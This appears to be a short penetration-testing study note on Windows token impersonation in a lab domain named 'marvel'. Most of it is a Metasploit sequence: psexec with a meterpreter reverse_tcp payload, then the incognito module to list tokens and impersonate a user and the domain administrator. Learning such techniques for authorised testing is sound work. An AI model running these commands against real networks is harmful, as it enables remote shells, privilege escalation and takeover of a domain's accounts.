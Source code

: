 # Token Impersonation

When users log in they generate a token which can be impersonated. This can be especially lethal if domain admins are logging into normal machines.

```bash
msfconsole

search psexec

use 4

set payload windows/x64/meterpreter/reverse_tcp

load incognito

help

list_tokens -u #-g

impersonate_token marvel\\fcastle

rev2self
```

Before the Administrator user logs in
![[token1.png]]

After a user logs in as Administrator
![[token2.png]]


```
impersonate_token MARVEL\\administrator
```